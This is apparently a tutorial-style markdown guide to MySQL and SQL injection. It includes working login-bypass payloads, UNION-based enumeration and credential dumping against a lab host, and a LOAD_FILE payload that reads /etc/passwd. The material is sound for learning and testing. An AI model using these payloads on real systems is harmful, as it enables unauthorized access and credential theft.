









# SQL Injections

This document summarizes core techniques for discovery and exploitation of **SQL injection vulnerabilities**. This is by no means an exhaustive guide. 

---

## Table of Contents
- [SQL Injections](#sql-injections)
    - [Overview](#overview)
    - [Authenticate to MySQL](#authenticate-to-mysql)
    - [Create Databases and Tables](#create-databases-and-tables)
    - [Manipulate and Retrieve Data from Tables](#manipulate-and-retrieve-data-from-tables)
    - [Filtering SQL Queries](#filtering-sql-queries)
    - [SQL Logical Operators](#sql-logical-operators)
    - [Introduction to SQL Injections](#introduction-to-sql-injections)
    - [OR Injection](#or-injection)
    - [Comment Injection](#comment-injection)
    - [UNION Injection](#union-injection)
    - [Exploitation Example - Walkthrough](#exploitation-example---walkthrough)
        - [Discovery](#discovery)
        - [Fingerprinting](#fingerprinting)
        - [Database Enumeration](#database-enumeration)
        - [Crafting a Payload](#crafting-a-payload)
    - [Reading Files](#reading-files)
    - [Writing Files](#writing-files)

---

## Overview

User input is often involved when applications send queries to a back-end database. If not securely coded, SQL injection vulnerabilities may be present.

---

## Authenticate to MySQL

The `mysql` utility is **CLI tool** used to authenticate to and interact with MySQL/MariaDB databases.

The following flags are commonly used to authenticate to a database:

| Flag        | Description   |
| ----------- | ------------- |
| `-u`        | Username      |
| `-h`        | Host          |
| `-P`        | Port          |
| `-p`        | Password      |

**Examples:**

When no host is specified, `mysql` defaults to **localhost**. The password can be supplied directly after the `-p` flag, with no space inbetween:

```bash
# Syntax
mysql -u <username> -p<password>

# Example
mysql -u root -pROOT123!
```

It is good practice to pass the `-p` flag without a password and instead be prompted interactively. This prevents the password from being stored in the `.bash_history` file:

```bash
# Syntax
mysql -u <username> -p

# Example
mysql -u root -p
```

The default port for MySQL/MariaDB is port `3306`. Use the `-h` and `-P` flags to connect to a specific host and port:

```bash
# Syntax
mysql -u <username> -h <ip/domain> -P <port> -p

# Example
mysql -u root -h 94.237.57.211 -P 46600 -p
```

---

## Create Databases and Tables

The semicolon (`;`) works as a statement terminator, much like in the `C` programming language. SQL keywords are case-insensitive; however, best practice is to write keywords in UPPERCASE and identifiers (such as database and table names) in lowercase.

The `CREATE DATABASE` statement creates a new database.

**Example:**

```sql
-- Syntax
CREATE DATABASE <name>;

-- Example
CREATE DATABASE users;
```

The `SHOW DATABASES` statement lists all databases.

**Example:**

```sql
SHOW DATABASES;
```


The `USE` statement switches to a particular database.

**Example:**

```sql
-- Syntax
USE <name>;

-- Example
USE users;
```

SQL databases store data in tables made up of horizontal rows and vertical columns. The intersection of a row and a column is called a `cell`. A column is of a particular data-type. 

Tables are created with the `CREATE TABLE` statement.

**Example:**

```sql
-- Syntax
CREATE TABLE <name> (
    col1 DATATYPE,
    col2 DATATYPE,
    col3 DATATYPE
);

-- Example
CREATE TABLE logins (
    id INT,
    username VARCHAR(100),
    password VARCHAR(100),
    join_date DATETIME
);
```


The `SHOW TABLES` statement lists all tables in the database.

**Example:**

```sql
SHOW TABLES;
```


The `DESCRIBE` statement is used to get more information about a table and its structure.

**Example:**

```sql
-- Syntax
DESCRIBE <name>;

-- Example
DESCRIBE logins;
```


---

## Manipulate and Retrieve Data from Tables

The `INSERT` statement adds a `record` to a table. A `record` represents a single row in a table, where values correspond to each column. 

**Example:**

```sql
-- Syntax
INSERT INTO <name> VALUES (col1_val, col2_val, ...);

-- Example
INSERT INTO logins VALUES(1, 'admin', 'p@ssw0rd', '2025-12-21');
```

Keep in mind that omitting column names requires values to be supplied in the exact column order defined by the table schema.

Values can also be added to individual columns, instead of adding entire records. 

**Example:**

```sql
-- Syntax
INSERT INTO <name> (col1, col2, ...) VALUES (col1_val, col2_val, ...);

-- Example
INSERT INTO logins (username, password) VALUES('admin', 'p@ssw0rd');
```

In the example above, unspecified columns must either allow `NULL` values or have default values defined.

The `SELECT` statement is used to retrieve data from tables.

**Example:**

Select all records from a table:

```sql
-- Syntax
SELECT * FROM <name>;

-- Example
SELECT * FROM logins;
```


Select specific columns from a table:

```sql
-- Syntax
SELECT col1, col2, ... FROM <name>;

-- Example
SELECT username, password FROM logins;
```


The `DROP` statement is used to delete tables. Use with `caution` — deletion is permanent and occurs without confirmation.

**Example:**

```sql
-- Syntax
DROP TABLE <name>;

-- Example
DROP TABLE logins;
```

The `ALTER` statement can be utilized to accomplish four different things:

- Rename table
- Rename column
- Add column
- Delete column

**Example:**

Rename a column:

```sql
-- Syntax
ALTER TABLE <name> RENAME COLUMN <name> TO <new_name>;

-- Example
ALTER TABLE logins RENAME COLUMN id TO ids;
```

Add a column:

```sql
-- Syntax
ALTER TABLE <name> ADD <name> <data_type>;

-- Example
ALTER TABLE logins ADD age INT;
```

---

## Filtering SQL Queries

The `ORDER BY` clause is used to sort the results of a query. The column to sort by is specified in the statement. Results are sorted in ascending order by default. Use `ASC` or `DESC` to specify direction.

**Example:**

```sql
-- Syntax
SELECT <records> FROM <table> ORDER BY <column>;

-- Example
SELECT * FROM logins ORDER BY password DESC;

-- Example
SELECT * FROM logins ORDER BY password;
```

The `LIMIT` clause is used to limit the number of records returned by a query.

**Example:**

```sql
-- Syntax
SELECT <records> FROM <table> LIMIT <number>;

-- Example
SELECT * FROM logins LIMIT 2;
```


The `WHERE` clause filters query results based on some condition. The `WHERE` clause is similar to an `if` statement in traditional programming languages. 

**Example:**

```sql
-- Syntax
SELECT <records> FROM <table> WHERE <condition>;

-- Example
SELECT * FROM logins WHERE username = 'admin';

-- Example
SELECT * FROM logins WHERE id > 1;
```


The `LIKE` clause filters a query based on some pattern. The `LIKE` operator performs simple pattern matching using wildcards, but is not a full `regular expression` engine.

**Example:**

The `%` symbol matches any characters and the `_` symbol matches exactly one character.

```sql
-- Syntax
SELECT <columns> FROM <table> WHERE <column> LIKE <pattern>;

-- Example 
SELECT * FROM logins WHERE username LIKE 'admin%';

-- Example
SELECT * FROM logins WHERE username LIKE '___';
```

---

## SQL Logical Operators

The most common **MySQL** logical operators are:

- `AND` 
- `OR` 
- `NOT`

The `AND` operator evaluates two boolean expressions and returns true or false. The result of an `AND` operation is true **if and only if** both expressions evaluate to true.

**Example:**

```sql
-- Evaluates to true
SELECT 1 = 1 AND 'test' = 'test';

-- Evaluates to false
SELECT 1 = 1 AND 'test' = 'abc';
```

The `OR` operator evaluates two boolean expressions and returns true or false. The result of an `OR` operation is true if at least one expression evaluates to true.

**Example:**

```sql
-- Evaluates to true
SELECT 1 = 1 OR 'test' = 'test';

-- Evaluates to true
SELECT 1 = 1 OR 'test' = 'abc';

-- Evaluates to false
SELECT 1 = 2 OR 'test' = 'abc';
```

The `NOT` operator takes one boolean expression and returns **true or false**. The result is the inverse of the expression.

```sql
-- Evaluates to false
SELECT NOT 1 = 1;

-- Evaluates to true
SELECT NOT 1 = 2;
```

Logical operators are often used in queries.

**Example:**

```sql
-- All records where the username is not equal to john
SELECT * FROM logins WHERE username != 'john';

-- All records where the username is not equal to john and the id is greater than 1
SELECT * FROM logins WHERE username != 'john' AND id > 1;
```


Logical operators follow a defined **order of precedence**, which determines how expressions are evaluated when parentheses are not used.

From highest to lowest precedence:

1. `NOT`
2. `AND`
3. `OR`

This means that `AND` expressions are evaluated before `OR` expressions unless parentheses explicitly alter the order.

**Example:**

Evaluates `AND` first, then `OR`:

```sql
SELECT 1 = 1 OR 1 = 2 AND 1 = 2;
```

The above expression is evaluated as:

```sql
-- true OR false = true
SELECT 1 = 1 OR (1 = 2 AND 1 = 2);
```

To override operator precedence and ensure clarity, parentheses should always be used:

```sql
-- true AND false = false
SELECT (1 = 1 OR 1 = 2) AND 1 = 2;
```
---

## Introduction to SQL Injections

**Sanitization** refers to modifying or filtering user input to remove or escape potentially dangerous characters. **Sanitization** is a common technique used to mitigate SQL injections; however, **sanitization alone is often insufficient** to fully prevent them. When user input is not properly handled, attackers can utilize special characters to escape the intended context of user input and inject a SQL payload. The payload is then executed as part of the original query.

SQL injections are categorized based on how an attacker retrieves the output of a payload:

- In-band
- Blind
- Out-of-band

In-band SQL injections are the most straightforward technique. The output of the injected query is returned directly in the application’s response and can be read by the attacker.

There are two types of In-band SQL injections:

- Union based
- Error based

Blind SQL injections do not return output directly on the front-end. SQL logic must be utilized to infer the output character by character based on application behavior. 

Out-of-band SQL injections provide no direct access to the output. Instead, the output is redirected to an attacker-controlled remote server and retrieved from there.

---

## SQL Injection Discovery

SQL injection vulnerabilities are typically discovered by injecting specially crafted input into application input fields or HTTP parameters. When injecting directly into HTTP parameters, payloads should be URL encoded to ensure proper transmission.

These payloads are used to test how user input is handled within SQL queries and whether it can break the intended query structure.

**Common Discovery Payloads:**

| Payload     | URL Encoded Payload   |
| ----------- | --------------------- |
| `'`         | `%27`                 |
| `"`         | `%22`                 |
| `#`         | `%23`                 |
| `;`         | `%3B`                 |
| `)`         | `%29`                 |

The above payloads are commonly used to:

- Break out of string contexts
- Terminate SQL statements
- Comment out the remainder of a query
- Trigger database error messages

A SQL injection vulnerability may be indicated by:

- Database error messages returned in the response
- Changes in application behavior
- Unexpected HTTP status codes
- Differences in response length or content

Examples of database-related error messages include:

- Syntax errors
- Unclosed quotation marks
- Invalid query structure
- Database-specific error codes

A common method of testing for SQL injections is by intercepting requests using tools such as BurpSuite and injecting payloads directly into GET or POST parameters. This allows controlled manipulation of user input while observing changes in server responses.

---

## OR Injection

Suppose an attacker attempts to log in to a **vulnerable application** with the credentials `admin/admin`. The back-end SQL query may look something like this:

```sql
SELECT * FROM logins WHERE username = 'admin' AND password = 'admin';
```

The query is based on a logical `AND` operation, meaning that **both** expressions must evaluate to true in order for the attacker to gain access to the application.

An attacker can utilize the `OR` operator to inject a payload that always evaluates to true. The `OR` operator returns true if at least one of the expressions evaluate to true. An attacker can escape user-input bounds and inject the expression `1 = 1`, which will always evaluate to true.

**Example:**

The following SQL injection requires a valid username, but bypasses the password check. 

Inject into the `Username` field, leave the the `Password` field blank:

```sql
admin' OR '1' = '1
```


Back-end SQL query after injection:

```sql
SELECT * FROM logins WHERE username = 'admin' OR '1'='1' AND password =''; 
```

According to operator precedence the `AND` operator is evaluated before the `OR` operator. 

The query will be evaluated as:

```sql
SELECT * FROM logins WHERE username = 'admin' OR ('1'='1' AND password =''); 
```

With a valid username and an invalid password, the query will evaluate to `true`:

- true OR (true AND false) &rarr; true OR false &rarr; true

With an invalid username and a valid password, the query will still evaluate to `true`;

- false OR (true AND true) &rarr; false OR true &rarr; true

With an invalid username and an invalid password, the query will evaluate to `false`;

- false OR (true AND false) &rarr; false OR false &rarr; false

Without a valid username or password, the attacker can inject the same payload into the `Password` field as well, causing the query to evaluate to true.

**Example:**

Back-end SQL query after injection:
```sql
SELECT * FROM logins WHERE username = 'admin' OR ('1'='1' AND password ='') OR '1'='1'; 
```

- false OR (true AND false) OR true &rarr; false OR false OR true &rarr; false OR true &rarr; true

---

## Comment Injection

SQL comments can be used to subvert query logic. There are two types of MySQL comments:

- Double dash (`--`)
- Hashtag (`#`)

**Example:**

```sql
SELECT * FROM logins; -- This is a comment

SELECT * FROM customers; # This is also a comment
```

**Comment-Based Payloads:**

| Payload     | URL Encoded Payload    |
| ----------- | ---------------------  |
| `-- `       | `--+` or `--%20`       |
| `#`         | `%23`                  |
| `)-- `      | `%29--+` or `%29--%20` |
| `)#`        | `%29%23`               |

When using double dashes, a space or control character must follow `--` for the comment to be recognized. 

The following example causes the SQL query to only check the username.

**Example:**

Inject any of the following payloads into the `Username` field, leave the `Password` field blank:

```sql
admin' -- 
```

```sql
admin' # 
```

Backend SQL query after injection:

```sql
SELECT * FROM logins WHERE username = 'admin'--' AND password=''; 
```

```sql
SELECT * FROM logins WHERE username = 'admin'#' AND password=''; 
```

The comment operator causes the remainder of the SQL query to be ignored by the database parser. The entire query will simply evaluate to:

```sql
SELECT * FROM logins WHERE username = 'admin'; 
```

---

## UNION Injection

A `UNION` clause can be utilized to inject entire SQL queries to be executed along with the original query. The `UNION` clause combines results from multiple `SELECT` statements. A `UNION` injection can select and dump data from multiple databases and tables across the DBMS. 

**Example:**

```sql
-- Syntax
SELECT <columns> FROM <table> UNION SELECT <columns> FROM <table>;

-- Example
SELECT * FROM ports UNION SELECT * FROM ships;
```

A `UNION` clause can only operate on `SELECT` statements that return the same number of columns in the same order. The original query often has more columns than the query the attacker wants to execute. In these scenarios, `junk data` is utilized to fill in the remaining columns. The injected values must be type-compatible with the corresponding columns in the original query. `NULL` is the preferred filler value because it is type-agnostic and compatible with most column types, but `INT` is also commonly used.

**Example:**

Suppose that the `products` table and the `passwords` table contain an equal number of columns (4). An attacker wants to retrieve the `username` column from the `passwords` table. The attacker may achieve this through a `UNION` injection. The attacker only wants the `username` column, and fills the remaining 3 columns with integers. 

```sql
SELECT * FROM products WHERE product_id = '1' UNION SELECT username, 2, 3, 4 FROM passwords-- '
```

The trailing comment ensures that the remainder of the original query is ignored.



**Example:**

Suppose you have access to a database and want to find the total number of records in the `employees` plus the `departments` tables.

**Step 1:**

Utilize the `DESCRIBE` statement to find the number of columns in each table.

```sql
DESCRIBE employees;
```


```sql
DESCRIBE departments;
```


The `employees` table contains six columns and the `departments` table contains two columns. 

**Step 2:**

Utilize a `UNION` clause and fill out the remaining four columns in the `departments` table with `NULL` values.

```sql
SELECT * FROM employees UNION SELECT dept_no, dept_name, NULL, NULL, NULL, NULL FROM departments;
```

---

## Exploitation Example - Walkthrough

---

### Discovery

An attacker is targeting an application used to track shipping ports. The attacker discovers a visible GET parameter.

```
http://94.237.54.192:55159/search.php?port_code=cn
```


Based on the URL the attacker assumes that the back-end SQL query looks something like this:

```sql
SELECT * FROM ports WHERE port_code = 'cn';
```

The attacker initiates the SQL injection discovery process by injecting a single quote `'` and observes the application's behavior. 

```
http://94.237.54.192:55159/search.php?port_code='
```



The single quote `'` injection caused a SQL syntax error. This means that the attacker was able to input something that changed the SQL query being sent to the back-end database. This strongly suggests that user input is being directly incorporated into the SQL query without proper handling. 

The single quote `'` injection probably changed the SQL query to look something like this:

```sql
SELECT * FROM ports WHERE port_code = ''';
```

The injected quote breaks the string literal, resulting in an unbalanced quotation and a SQL syntax error.

---

### Fingerprinting

Before exploiting the application, the attacker must determine how many columns the table has. This can be accomplished in two ways:

- By using `ORDER BY`
- By using a `UNION`

**Method 1: `ORDER BY`**

The attacker repeatedly injects integers representing the column to sort by, and increments the integer by one for each iteration. This continues until an error is induced, stating that the specified column index is out of range.

```sql
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
' ORDER BY 4-- 
' ORDER BY 5-- 
```

```
http://94.237.54.192:55159/search.php?port_code=%27+ORDER+BY+5--+
```

An error is induced on the fifth column, meaning that the table has four columns.



**Method 2: `UNION`**

The attacker performs repeated `UNION` injections with a different number of columns each time, starting at 1 and incrementing by 1 for each iteration. This continues until a successful response is induced. 

```sql
' UNION SELECT 1--  
' UNION SELECT 1,2--  
' UNION SELECT 1,2,3--  
' UNION SELECT 1,2,3,4--  
```

```
http://94.237.54.192:55159/search.php?port_code=%27+UNION+SELECT+1%2C2%2C3%2C4--+
```

A successful response indicates that the injected `UNION SELECT` matches the column count of the original query.


Even though the table has four columns, all columns are not necessarily shown in the output. The attacker must figure out which columns are shown in order to determine where to inject payloads. 

A `UNION` injection is then performed by specifying four columns.

```sql
cn' UNION SELECT 1,2,3,4--  
```

```
http://94.237.54.192:55159/search.php?port_code=cn%27+UNION+SELECT+1%2C2%2C3%2C4--+
```

Only columns 2, 3 and 4 are displayed in the output. This means that the payload must be injected into one of these columns.



The example above demonstrates a scenario where it is beneficial to use `INT` as junk data, instead of `NULL`. Using `INT` makes it easy to track exactly which columns are being displayed. 

Information about the DBMS version and the current user is also needed to devlop a suitable payload.

It is possible to make a rough guess regarding the DBMS:

- If the server is **Apache** or **Nginx** and running on **Linux**, the DBMS is often **MySQL**.
- If the server is **IIS** running on **Windows**, the DBMS is often **MSSQL**.

To be confirm the DBMS and version, the attacker injects a `@@version` payload into the second column.

```sql
cn' UNION SELECT 1, @@version, 3, 4--   
```



The exact DBMS and version is `10.3.22-MariaDB-1ubuntu1`.

The attacker proceeds by fingerprinting the current user by injecting the `user()` payload into the second column.

```sql
cn' UNION SELECT 1, user(), 3, 4--   
```



The current user is `root`. Running the database as `root` significantly increases the impact of a successful SQL injection.

---

### Database Enumeration

To craft payloads capable of pulling data across a DBMS, information about the following is necessary:

- Databases
- Tables
- Columns

`INFORMATION_SCHEMA` is a metadata database implemented by many DBMSs, including MySQL and MariaDB. It contains information about databases, tables, columns, and other objects on the system.

`SCHEMATA` is a table in `INFORMATION_SCHEMA`. The `SCHEMA_NAME` column in `SCHEMATA` is a list of all databases on the DBMS.

The attacker utilizes this information to retrieve a list of all databases:

```sql
cn' UNION SELECT 1, SCHEMA_NAME, 3, 4 FROM INFORMATION_SCHEMA.SCHEMATA--   
```



`TABLES` is also a table in `INFORMATION_SCHEMA`. The `TABLE_NAME` column in `TABLES` is a list of all tables on the DBMS.

The attacker performs a similar injection to before, in order to retrieve a list of all tables and the associated databases:

```sql
cn' UNION SELECT 1, TABLE_NAME, TABLE_SCHEMA, 4 FROM INFORMATION_SCHEMA.TABLES--   
```


To craft a more precise query, the exact database to pull tables from can be specified. For example, the `dev` database:

```sql
cn' UNION SELECT 1, TABLE_NAME, TABLE_SCHEMA, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='dev'--    
```


`COLUMNS` is another table in `INFORMATION_SCHEMA`. The `COLUMN_NAME` column in `COLUMNS` contains the names of all columns across all tables.

The attacker proceeds by enumerating all columns and associated tables:

```sql
cn' UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS--   
```

As in the previous example, the query can be refined to only pull columns from a certain table. For example, the `credentials` table:

```sql
cn' UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='credentials'--    
```

---

### Crafting a Payload

With the groundwork complete, the attacker is now ready to exploit the target. Based on the previous steps, the attacker has decided to target the `dev` database. The goal is to retrieve all records from the `username` and `password` columns in the `credentials` table. 

This payload places the extracted data into columns that were previously identified as visible in the application’s response:

```sql
cn' UNION SELECT 1, username, password, 4 FROM dev.credentials--  
```



As a result, the attacker is able to extract sensitive credential data directly from the database.

---

## Reading Files

In MySQL, users require the `FILE` privilege to read files from the underlying filesystem. Files are read using the `LOAD_FILE()` function, which loads the contents of a file into the result set of a query.

**Step 1: Fingerprint the User** 
To fingerprint the user, any of the following payloads can be utilized:

```sql
-- Queries
SELECT USER();
SELECT CURRENT_USER();
SELECT user FROM mysql.user;
```

The `USER()` function returns the authenticated MySQL user, while `CURRENT_USER()` returns the account used by the server for privilege checks.

```sql
-- Payloads
cn' UNION SELECT 1, USER(), 3, 4-- 
cn' UNION SELECT 1, CURRENT_USER(), 3, 4-- 
cn' UNION SELECT 1, user, 3, 4 FROM mysql.user-- 
```


The current user is `root`. This is usually a good sign.

**Step 2: Enumerate Privileges**

When the user is known, the next step is to enumerate the privileges assigned to that user. 

Any of the following payloads can be utilized to check for `administrative` privileges:

```sql
-- Query
SELECT super_priv FROM mysql.user;
```

```sql
-- Payloads
 cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- 
 cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user='root'-- 
```



The query returns `Y`, indicating that the user has `administrative` privileges.

A similar payload can be utilized to enumerate **all** privileges assigned to the user:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM INFORMATION_SCHEMA.USER_PRIVILEGES WHERE grantee=" 'root'@'localhost "--  
```


The result from the query confirms that the `root` user does indeed have `FILE` privileges. 

**Step 3: Read Files**

The `LOAD_FILE` function is used to load a file into a table. 

The following payload can be utilized to load and read a file:

```sql
-- Query
SELECT LOAD_FILE('/etc/passwd');
```

```sql
-- Payload
cn' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4--  
```


---

## Writing Files